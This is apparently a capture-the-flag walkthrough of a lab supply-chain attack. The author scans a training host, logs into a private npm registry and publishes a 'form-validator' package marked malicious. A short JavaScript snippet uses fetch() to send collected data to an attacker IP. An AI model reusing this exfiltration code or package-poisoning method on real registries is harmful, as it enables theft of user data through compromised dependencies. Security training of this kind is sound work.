



# Supply Chain Attack: Lottie (Walkthroughs)

## Service Scanning 
```bash
$ nmap -sC -sV -p$(nmap --min-rate=2000 -T4 -p- 10.10.120.237 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') 10.10.120.237 -oN tcp.txt 
```
```bash
Nmap scan report for npm.thm (10.10.73.188)
Host is up (0.29s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:1e:f8:f5:76:ed:39:92:9d:83:ce:93:92:dc:7f:7f (RSA)
|   256 a0:64:7e:f6:f9:47:47:9d:fa:5e:9c:24:0e:25:7c:58 (ECDSA)
|_  256 9c:56:ca:9b:31:fe:a7:89:ed:5e:a5:d9:87:a0:d9:0b (ED25519)
80/tcp   open  http    WebSockify Python/3.8.10
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 405 Method Not Allowed
|     Server: WebSockify Python/3.8.10
|     Date:  
|     Connection: close
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 472
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 405</p>
|     <p>Message: Method Not Allowed.</p>
|     <p>Error code explanation: 405 - Specified method is invalid for this resource.</p>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 501 Unsupported method ('OPTIONS')
|     Server: WebSockify Python/3.8.10
|     Date:  
|     Connection: close
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 500
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 501</p>
|     <p>Message: Unsupported method ('OPTIONS').</p>
|     <p>Error code explanation: HTTPStatus.NOT_IMPLEMENTED - Server does not support this operation.</p>
|     </body>
|_    </html>
|_http-server-header: WebSockify Python/3.8.10
|_http-title: Error response
4444/tcp open  http    SimpleHTTPServer 0.6 (Python 3.8.10)
|_http-title: Directory listing for /
|_http-server-header: SimpleHTTP/0.6 Python/3.8.10
4873/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Verdaccio
8080/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Login Panel
```
## Subdomain
```bash
$ echo "10.10.73.188 npm.thm cdn.npm.thm" | sudo tee -a /etc/hosts
```
## Crafting Payload 
```js
// Malicious code to send data to an attacker's server via GET request
fetch(`http://10.2.9.211:9090/collect?${queryParams}`)
    .catch(error => console.log("Failed to send data:", error));
```
## Connecting account 
```bash
$ npm --version
9.2.0
```
```bash
$ npm login --registry http://npm.thm:4873 --auth-type=legacy --loglevel=verbose                                                                       
```
```bash
npm verb cli /usr/bin/node /usr/bin/npm
npm info using npm@9.2.0
npm info using node@v20.18.1
npm verb title npm login
npm verb argv "login" "--registry" "http://npm.thm:4873" "--auth-type" "legacy" "--loglevel" "verbose"
npm verb logfile logs-max:10 dir:/home/kali/.npm/_logs/redacted_530Z-
npm verb logfile /home/kali/.npm/_logs/redacted_530Z-debug-0.log
npm notice Log in on http://npm.thm:4873/
Username: (mark ) mark
Password: 
npm verb login before first PUT {
npm verb login   _id: 'org.couchdb.user:mark',
npm verb login   name: 'mark',
npm verb login   password: 'XXXXX',
npm verb login   type: 'user',
npm verb login   roles: [],
npm verb login   date: 'Redacted.126Z'
npm verb login }
npm http fetch PUT 409 http://npm.thm:4873/-/user/org.couchdb.user:mark 715ms
npm http fetch GET 200 http://npm.thm:4873/-/user/org.couchdb.user:mark?write=true 334ms (cache miss)
npm http fetch PUT 201 http://npm.thm:4873/-/user/org.couchdb.user:mark/-rev/undefined 329ms
npm info login Logged in on http://npm.thm:4873/.
Logged in on http://npm.thm:4873/.
npm verb exit 0
npm info ok 
```
## Publishing malicious package
```bash
$ npm publish --registry http://npm.thm:4873
npm notice 
npm notice 📦  form-validator@1.1.0
npm notice === Tarball Contents === 
npm notice 1.5kB index.js    
npm notice 267B  package.json
npm notice === Tarball Details === 
npm notice name:          form-validator                          
npm notice version:       1.1.0                                   
npm notice filename:      form-validator-1.1.0.tgz                
npm notice package size:  684 B                                   
npm notice unpacked size: 1.8 kB                                  
npm notice shasum:        e342d3112b70c28eda0d529b48e26f17126241bc
npm notice integrity:     sha512-SKgekk1Tr7urG[...]hJ6sCSzedDmeA==
npm notice total files:   2                                       
npm notice 
npm notice Publishing to http://npm.thm:4873/ with tag latest and default access
+ form-validator@1.1.0
```



## Flag
```bash
$ curl -v http://10.10.73.188:8080/flagvalidator/
```
